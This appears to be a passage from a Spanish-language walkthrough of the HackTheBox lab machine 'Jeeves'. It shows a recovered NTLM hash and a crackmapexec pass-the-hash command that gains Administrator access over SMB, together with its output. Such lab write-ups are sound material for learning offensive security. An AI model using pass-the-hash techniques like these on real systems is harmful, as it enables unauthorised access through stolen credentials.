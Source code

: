 ![Hash NTLM](./5.png)

Si seleccionamos la primera contraseña, tenemos un hash `NTLM`:

```txt wrap=false
aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
```

En este caso nos interesa la parte después de los `:` para hacer pass the hash:

```bash wrap=false
❯ crackmapexec smb 10.10.10.63 -u 'Administrator' -H 'e0fb1fb85756c24235ff238cbe81fe00'
SMB         10.10.10.63     445    JEEVES           [*] Windows 10 Pro 10586 x64 (name:JEEVES) (domain:Jeeves) (signing:False) (SMBv1:True)
SMB         10.10.10.63     445    JEEVES           [+] Jeeves\Administrator:e0fb1fb85756c24235ff238cbe81fe00 (Pwn3d!)
```
